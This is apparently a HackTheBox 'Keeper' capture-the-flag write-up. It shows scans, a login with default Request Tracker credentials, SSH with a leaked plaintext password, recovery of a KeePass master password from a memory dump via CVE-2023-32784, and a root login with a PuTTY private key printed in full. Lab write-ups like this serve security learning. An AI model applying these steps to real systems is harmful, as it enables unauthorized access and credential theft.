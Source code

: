 ```yaml
---
title: HackTheBox - Keeper
date: 2023-11-19 18:36:07
tags: [htb, ctf, writeup, putty, keepass, linux]
category: writeups
description: htb keeper writeup
---
```


# Tools

- netcat
- putty
- keepass-password-dumper

<br>

## Getting User

### Nmap


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper]
└─$ sudo nmap -sS -oA nmap/initial_scan 10.129.59.247    
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-19 06:50 EST
Nmap scan report for 10.129.59.247
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.98 seconds
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper]
└─$ sudo nmap -sC -sV -p 22,80 -oA nmap/default_script_scan 10.129.59.247
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-19 06:51 EST
Nmap scan report for 10.129.59.247
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.62 seconds
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


<br>

### Foothold

Visiting http://10.129.59.247/ theres a hyperlink saying “*To raise an IT support ticket, please visit tickets.keeper.htb/rt/*”
Add vhosts to *hosts* file


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper]
└─$ echo "10.129.59.247 keeper.htb tickets.keeper.htb" | sudo tee -a /etc/hosts           
[sudo] password for kali: 
10.129.59.247 keeper.htb tickets.keeper.htb
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


*tickets.keeper.htb/rt/* takes us to a login page of Request Tracker app (version RT 4.4.4+dfsg-2ubuntu1)

I look up *rt 4.4.4+dfsg-2ubuntu1* & I find that admin has a default password which is `root:password`
We were able to login using the defualt credentials.

Going to *Admin > Users > Select* and selecting *lnorgaard* user we find the following comment

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
New user. Initial password set to Welcome2023!
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We are able to use *lnorgaard*'s credentials to get foothold


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper/files]
└─$ ssh lnorgaard@keeper.htb
lnorgaard@keeper.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
lnorgaard@keeper:~$ cat user.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



<br>

## Getting Root

### Information Gathering

Start a python http server to download *RT30000.zip* to your machine


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper/files]
└─$ wget http://keeper.htb:3211/RT30000.zip
--2023-11-19 07:55:12--  http://keeper.htb:3211/RT30000.zip
Resolving keeper.htb (keeper.htb)... 10.129.59.247
Connecting to keeper.htb (keeper.htb)|10.129.59.247|:3211... connected.
HTTP request sent, awaiting response... 200 OK
Length: 87391651 (83M) [application/zip]
Saving to: ‘RT30000.zip’

RT30000.zip                                        100%[================================================================================================================>]  83.34M  3.06MB/s    in 46s     

2023-11-19 07:55:58 (1.82 MB/s) - ‘RT30000.zip’ saved [87391651/87391651]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We find a KeePass dump file and db upon extracting the content of the zip file


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper/files]
└─$ unzip RT30000.zip                 
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx          
                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/HTB/Keeper/files]
└─$ ls
KeePassDumpFull.dmp  passcodes.kdbx  RT30000.zip
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


I found a PoC to dump master password from KeePass's memory https://github.com/vdohney/keepass-password-dumper (CVE-2023-32784)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper/files/keepass-password-dumper]
└─$ git clone https://github.com/vdohney/keepass-password-dumper   

┌──(kali㉿kali)-[~/HTB/Keeper/files/keepass-password-dumper]
└─$ cd keepass-password-dumper     

┌──(kali㉿kali)-[~/HTB/Keeper/files/keepass-password-dumper]
└─$ dotnet run ../KeePassDumpFull.dmp   
...................... SNIPPED ............................
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M, 
3.:     d, 
4.:     g, 
5.:     r, 
6.:     ø, 
7.:     d, 
8.:      , 
9.:     m, 
10.:    e, 
11.:    d, 
12.:     , 
13.:    f, 
14.:    l, 
15.:    ø, 
16.:    d, 
17.:    e, 
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


The PoC couldn't find the first two characters.
Upon searching `dgrød med fløde` on the web, I find the *Rødgrød med fløde*, which could be the password.

Installed keepassx


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo apt-get install keepassx
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Open the **passcodes.kdbx** and enter the password `rødgrød med fløde`
We get it and we find there's a folder called *Network* which contains root's PuTTY RSA key

<br>

### Privilege Escalation

I'm going to install putty to use the key


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper/files]
└─$ sudo apt install putty  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Copy RSA to a file and use PuTTY to connect to the server


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper/files]
└─$ echo '''PuTTY-User-Key-File-3: ssh-rsa                                                
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0''' > rsa 

┌──(kali㉿kali)-[~/HTB/Keeper/files]
└─$ putty root@keeper.htb -i rsa          

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


This will open up a putty terminal


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@keeper:~# ls
root.txt  RT30000.zip  SQL
root@keeper:~# cat root.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

